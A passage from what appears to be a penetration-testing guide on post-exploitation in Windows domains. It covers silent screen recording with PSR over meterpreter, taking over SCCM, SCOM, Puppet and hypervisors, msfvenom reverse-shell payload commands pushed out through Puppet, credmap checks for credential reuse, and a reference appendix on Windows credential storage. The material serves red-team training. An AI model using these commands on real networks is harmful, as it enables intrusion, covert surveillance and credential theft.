 [/arcetl (0|1)] [/arcxml (0|1)] [/arcmht (0|1)]
 [/stopevent <eventname>] [/maxlogsize <value>] [/recordpid <pid>]

 /start Start Recording. (Outputpath flag SHOULD be specified)
 /stop Stop Recording.
 /sc Capture screenshots for recorded steps.
 /maxsc Maximum number of recent screen captures.
 /maxlogsize Maximum log file size (in MB) before wrapping occurs.
 /gui Display control GUI.
 /arcetl Include raw ETW file in archive output.
 /arcxml Include MHT file in archive output.
 /recordpid Record all actions associated with given PID.
 /sketch Sketch UI if no screenshot was saved.
 /slides Create slide show HTML pages.
 /output Store output of record session in given path.
 /stopevent Event to signal after output files are generated.

Once, we have a meterpreter, we can use shell to execute it 

::

 psr.exe /start /gui 0 /output C:\Users\Dan\Desktop\cool.zip;
 Start-Sleep -s 20;
 psr.exe /stop;

Refer `Using Problem Steps Recorder (PSR) Remotely with Metasploit <https://cyberarms.wordpress.com/2016/02/13/using-problem-steps-recorder-psr-remotely-with-metasploit/>`_ 

Hypervisor
----------

A hypervisor or virtual machine monitor (VMM) is computer software, firmware or hardware that creates and runs virtual machines. Many of times, we would find that the client has deployed a common 4-tier architecture such as development, testing, staging, production (DEV, TEST, STAGING, PROD) on to hypervisor i.e each environment on one hypervisor. If you compromise the Hypervisor ( mostly attached to Windows Domain ), you would end up compromising whole ( DEV/ TEST/ STAGING/ PROD ) environment. Once, we compromised a client SAP environment in such manner.

Targeted Hunting
----------------

As we already have domain administrator privileges, we own the network and possibly have access to every machine. However, we will cover a non-traditional way to strategically target and compromise computers.

Microsoft’s System Center Configuration Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

SCCM is a platform that allows for an enterprise to package and deploy operating systems, software, and software updates. It allows for IT staff to script and push out installations to clients in an automated manner. If you can gain access to SCCM, it makes for a great attack platform. It heavily integrates Windows PowerShell, has excellent network visibility, and has a number of SCCM clients as SYSTEM just waiting to execute your code as SYSTEM.

Enignma has written a awesome blog `Target workstation compromise with SCCM <https://enigma0x3.net/2015/10/27/targeted-workstation-compromise-with-sccm/>`_

Microsoft System Center Operations Manager
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

System Center Operations Manager (SCOM) is a cross-platform data center monitoring system for operating systems and hypervisors. It uses a single interface that shows state, health and performance information of computer systems. It also provides alerts generated according to some availability, performance, configuration or security situation being identified. It works with Microsoft Windows Server and Unix-based hosts.

SCOM also allows to monitor health of the system and provide powershell interface to the machine or provide an ability to execute a script on a particular machine.

Puppet
^^^^^^

Puppet is an open-source software configuration management tool. It runs on many Unix-like systems as well as on Microsoft Windows. It was created to easily automate repetitive and error-prone system administration tasks. Puppet's easy-to-read declarative language allows you to declare how your systems should be configured to do their jobs.

However, if an organization is utilizing puppet to control it servers/ workstations and we have compromised puppet server. We can just create a metasploit meterpreter based on the target operating system ( Windows/ Linux )
using msfvenom.

* Linux

 ::

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

* Windows

 ::

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

* Mac

 ::

 	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

Create a module in puppet to include this payload using file resource and store in on the targeted machine. Utilizing exec resource, execute the payload and we would receive the meterpreter on the listener.

Tanoy Bose has written the blog on `Enterprise Offense: IT Operations [Part 1] - Post-Exploitation of Puppet and Ansible Servers <http://n0tty.github.io/2017/06/11/Enterprise-Offense-IT-Operations-Part-1/>`_ 

.. todo::

  * The Email- Mailbox Post exploitation -- Also the check if someone has exploited this (check logs) -- which is also connected to Domain? 
  * How does google email works?
  * File Hunting -- Better ways!! Faster ways!!

Credmap: The credential Mapper
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Its an open source tool created by Roberto Salgado `<https://github.com/lightos>`_. This tool test the website for credntial reuse. It is capable of testing the supplied user credentials on several websites to test if the password has been reused or not. This tool can be of great advantage to check the validation of the gathered credentials on other social media sites as well.

::

 Usage: credmap.py --email EMAIL | --user USER | --load LIST [options]

 Options:
   -h/--help             show this help message and exit
   -v/--verbose          display extra output information
   -u/--username=USER..  set the username to test with
   -p/--password=PASS..  set the password to test with
   -e/--email=EMAIL      set an email to test with
   -l/--load=LOAD_FILE   load list of credentials in format USER:PASSWORD
   -f/--format=CRED_F..  format to use when reading from file (e.g. u|e:p)
   -x/--exclude=EXCLUDE  exclude sites from testing
   -o/--only=ONLY        test only listed sites
   -s/--safe-urls        only test sites that use HTTPS
   -i/--ignore-proxy     ignore system default HTTP proxy
   --proxy               set proxy (e.g. "socks5://192.168.1.2:9050")
   --list                list available sites to test with
   --update              update from the official git repository

 Examples:
 ./credmap.py --username janedoe --email janedoe@email.com
 ./credmap.py -u johndoe -e johndoe@email.com --exclude "github.com, live.com"
 ./credmap.py -u johndoe -p abc123 -vvv --only "linkedin.com, facebook.com"
 ./credmap.py -e janedoe@example.com --verbose --proxy "https://127.0.0.1:8080"
 ./credmap.py --load creds.txt --format "e.u.p"
 ./credmap.py -l creds.txt -f "u|e:p"
 ./credmap.py -l creds.txt
 ./credmap.py --list

credmap can be cloned or downloaded from here `<https://github.com/lightos/credmap>`_.

Appendix-I : Windows Credentials
================================

In this section, we have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types. The below has been directly taken from the `Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft, Version 1 and 2 <https://www.microsoft.com/en-in/download/details.aspx?id=36036>`_

Terminology: authentication, credentials, and authenticators
------------------------------------------------------------

When a user wants to access a computing resource, they must provide information that identifies who they are, their identity, and proof of this identity in the form of secret information that only they are supposed to know. This proof of identity is called an **authenticator**. An authenticator can take various forms, depending on the authentication protocol and method. The combination of an **identity** and an **authenticator** is called an **authentication credential or credential**. The process of creation, submission, and verification of credentials is described simply as **authentication**, which is implemented through various authentication protocols, such as NTLM and Kerberos authentication. Authentication establishes the identity of the user, but not necessarily the user's permission to access or change a computing resource, which is handled by a separate authorization process.


Credentials in Windows operating systems
----------------------------------------

Credentials are typically created or converted to a form required by the authentication protocols available on a computer. Credentials may be stored in LSASS process memory for use by the account during a session. Credentials must also be stored on disk in authoritative databases, such as the SAM database and the Active Directory database.
        
Identities - usernames
^^^^^^^^^^^^^^^^^^^^^^

In Windows operating systems, a user’s identity takes the form of the account’s username, either the "user name" (SAM Account Name) or the User Principal Name (UPN).

Windows authenticators
^^^^^^^^^^^^^^^^^^^^^^

Windows Credential Types, lists the credential authenticator types in Windows operating systems and provides a brief description of each type.

+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Type       | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Plaintext credentials | When a user logs on to a Windows computer and provides a username and credentials, such as a password or PIN, the     |
|                       | information is provided to the computer in plaintext. This plaintext password is used to authenticate the user’s      |
|                       | identity by converting it into the form required by the authentication protocol. Current versions of Windows also     |
|                       | retain an encrypted copy of this password that can be decrypted back to plaintext for use with authentication methods |
|                       | such as Digest authentication.                                                                                        |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| NT hash               | The NT hash of the password is calculated using an unsalted MD4 hash algorithm. MD4 is a cryptographic one-way        |
|                       | function that produces a mathematical representation of a password. This hashing function is designed to always       |
|                       | produce the same result from the same password input, and to minimize collisions where two different passwords can    | 
|                       | produce the same result. This hash is always the same length and cannot be directly decrypted to reveal the plaintext | 
|                       | password. Because the NT hash only changes when the password changes, an NT hash is valid for authentication until a  |
|                       | user’s password is changed. This also means that if two accounts use an identical password, they will also have an    |
|                       | identical NT password hash.                                                                                           |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LM Hash               | LAN Manager (LM) hashes are derived from the user password. Legacy support for LM hashes and the LAN Manager          |
|                       | authentication protocol remains in the Windows NTLM protocol suite, but default configurations and Microsoft security |
|                       | guidance have discouraged their use for more than a decade. LM hashes have a number of challenges that make them less |
|                       | secure and more valuable to attackers if stolen:                                                                      |
|                       | - hashes required a password to be less than 15 characters long and contain only ASCII characters.                    |
|                       | - LM Hashes also do not differentiate between uppercase and lowercase letters.                                        |
|                       |                                                                                                                       |
|                       | Techniques to obtain the plaintext value from a LM hash with relatively low effort have been available for a number of| 
|                       | years, so the loss of a LM hash should be considered nearly equivalent to the loss of plaintext password.             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Windows logon cached  | These verifiers are stored in the registry (HKLM\Security) on the local computer and provide validation of a domain   |
| password verifiers    | user’s credentials when the computer cannot connect to Active Directory during a user logon. These are not            |
|                       | credentials, as they cannot be presented to another computer for authentication, and they can only be used to locally |
|                       | verify a credential.                                                                                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Credential Storage
^^^^^^^^^^^^^^^^^^

Credential Storage, lists the types of credential storage locations available on the Windows operating system.


+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential sources    | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Security Accounts     | The SAM database is stored as a file on the local disk, and is the authoritative credential store for local accounts  |
| Manager (SAM)         | on each Windows computer. This database contains all the credentials that are local to that specific computer         |
| database              | including the built-in local Administrator account and any other local accounts for that computer.                    |
|                       |                                                                                                                       |
|                       | The SAM database stores information on each account, including the username and the NT password hash. By default,     |
|                       | the SAM database does not store LM hashes on current versions of Windows. It is important to note that no password is |
|                       | ever stored in a SAM database, only the password hashes.                                                              |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Local System Security | The Local Security Authority (LSA) stores credentials in memory on behalf of users with active Windows sessions. This |
| Authority Subsystem   | allows users to seamlessly access network resources, such as file shares, Exchange mailboxes, and SharePoint sites,   |
| ( LSASS ) process     | without reentering their credentials for each remote service. LSA may store credentials in multiple forms including:  |
| memory                | - Reversibly encrypted plaintext                                                                                      |
|                       | - Kerberos tickets (TGTs, service tickets)                                                                            |
|                       | - NT hash                                                                                                             |
|                       | - LM hash                                                                                                             |
|                       |                                                                                                                       |
|                       | If the user logs on to Windows using a smartcard, LSA will not store a plaintext password, but it will store the      |
|                       | corresponding NT hash value for the account and the plaintext PIN for the smartcard.                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LSA secrets on disk   | A Local Security Authority (LSA) secret is a secret piece of data that is accessible only to SYSTEM account processes.|
|                       | Some of these secrets are credentials that must persist after reboot and are stored in encrypted form on disk.        |
|                       | Credentials stored as LSA secrets on disk may include:                                                                |
|                       | - Account password for the computer’s Active Directory account.                                                       |                
|                       | - Account passwords for Windows services configured on the computer.                                                  |
|                       | - Account passwords for configured scheduled tasks.                                                                   |
|                       | - Account passwords for IIS application pools and websites.                                                           |
|                       | - An attack tool running as an account with administrative privileges on the computer can exploit those privileges to |
|                       |   extract these LSA secrets.                                                                                          |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Domain Active         | The Active Directory database is the authoritative store of credentials for all user and computer accounts in an      |
| Directory Database    | Active Directory domain. Each writable domain controller in the domain contains a full copy of the domain’s Active    |
| ( NTDS.DIT )          | Directory database, including account credentials for all accounts in the domain. Read-only domain controllers (RODCs)|
|                       | house a partial local replica with credentials for a selected subset of the accounts in the domain. By default, RODCs |
|                       | do not have a copy of privileged domain accounts.                                                                     |
|                       |                                                                                                                       |
|                       | The Active Directory database stores a number of attributes for each account, including both username types and the   |
|                       | following:                                                                                                            |
|                       | - NT hash for current password.                                                                                       |
|                       | - NT hashes for password history (if configured).                                                                     |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Manager    | Users may choose to save passwords in Windows using an application or through the Credential Manager Control Panel    |
| (CredMan) store       | applet. These credentials are stored on disk and protected using the Data Protection Application Programming Interface|
|                       | (DPAPI), which encrypts them with a key derived from the user’s password. Any program running as that user will be    |
|                       | able to access credentials in this store.                                                                             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Before we dig down in gathering credentials from a compromised machine, we should understand about Windows authentication protocols

Windows authentication protocols
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The following table provides information on Windows authentication protocols and a brief description of each supported protocol.

+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Protocol  | Description                                                                                                                 |
+===========+=============================================================================================================================+
| Kerboros  | Kerberos is the default and preferred authentication protocol for domain authentication on current Windows operating        |
|           | systems. Kerberos relies on a system of keys, tickets, and mutual authentication in which keys are normally not passed      |
|           | across the network. (Direct use of the key is permitted for some application clients under certain circumstances).          |
|           | Certain Kerberos-specific objects that are used in the authentication process are stored as LSA secrets in memory,          |
|           | such as Ticket Granting Tickets (TGT) and Service Tickets (ST). TGTs are Single sign-on (SSO) authentication credentials    |
|           | that can be reused for lateral movement or privilege escalation, while STs are not credentials that can be used for lateral |
|           | movement or privilege escalation.                                                                                           |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| NTLM      | NTLM protocols are authentication protocols that use a challenge and response method to make clients mathematically prove   |
|           | that they have possession of the NT hash. Current and past versions of Windows support multiple versions of this protocol,  |
|           | including NTLMv2, NTLM, and the LM authentication protocol.                                                                 |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Digest    | Digest is a standards-based protocol typically used for HTTP and Lightweight Directory Access Protocol (LDAP) authentication|
|           | Digest authentication is described in RFCs 2617 and 2831. 								  |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+

Appendix-II Interesting Stories
===============================

* `Enumerating Excluded AntiVirus Locations <http://securitypadawan.blogspot.in/2016/01/enumerating-excluded-antivirus-locations.html>`_

* Launching Empire from Meterpreter/ Beacon and passing meterpreter to Metasploit/ Cobalt Strike : Refer Sixdub blog on `Empire & Tool Diversity: Integration is Key <http://www.sixdub.net/?p=627>`_

Tools
-----

* `PowerMemory <https://github.com/giMini/PowerMemory>`_

* `Data Exfiltration Toolkit (DET) <https://github.com/sensepost/DET>`_ 

.. disqus::
